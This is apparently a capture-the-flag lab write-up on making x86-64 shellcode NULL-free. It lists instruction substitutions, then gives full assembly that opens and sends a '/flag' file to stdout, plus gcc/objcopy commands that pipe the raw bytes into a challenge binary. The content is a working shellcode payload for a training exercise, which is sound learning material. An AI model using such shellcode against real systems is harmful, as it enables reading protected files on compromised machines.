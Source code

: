 # NULL-free Shellcode

Changes to [prev code](./Basic%20Shellcode.md):

1. `mov rbx, 0x00000067616c662f` -> `mov ebx, 0x67616c66; shl rbx, 8; mov bl, 0x2f`
2. `mov rax, 2` -> `xor rax, rax; mov al, 2`
3. `mov rsi, 0` -> `xor rsi, rsi`
4. `mov rdi, 1` -> `xor rdi, rdi; inc rdi`
5. `mov rdx, 0` -> `xor rdx, rdx`
6. `mov r10, 1000` -> `xor r10, r10; add r10w, 0x3e8`
7. `mov rax, 40` -> `xor rax, rax; mov al, 40`
8. `mov rax, 60` -> `xor rax, rax; mov al, 60`

Final `shellcode.s`:

```assembly
.global _start
_start:
.intel_syntax noprefix
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    xor rax, rax
    mov al, 2
    mov rdi, rsp
    xor rsi, rsi
    syscall
    xor rdi, rdi
    inc rdi
    mov rsi, rax
    xor rdx, rdx
    xor r10, r10
    add r10w, 0x3e8
    xor rax, rax
    mov al, 40
    syscall
    xor rax, rax
    mov al, 60
    syscall
```

```shell
gcc -nostdlib -static shellcode.s -o shellcode-elf
objcopy --dump-section .text=shellcode-raw shellcode-elf
cat shellcode-raw | /challenge/binary-exploitation-null-free-shellcode
```
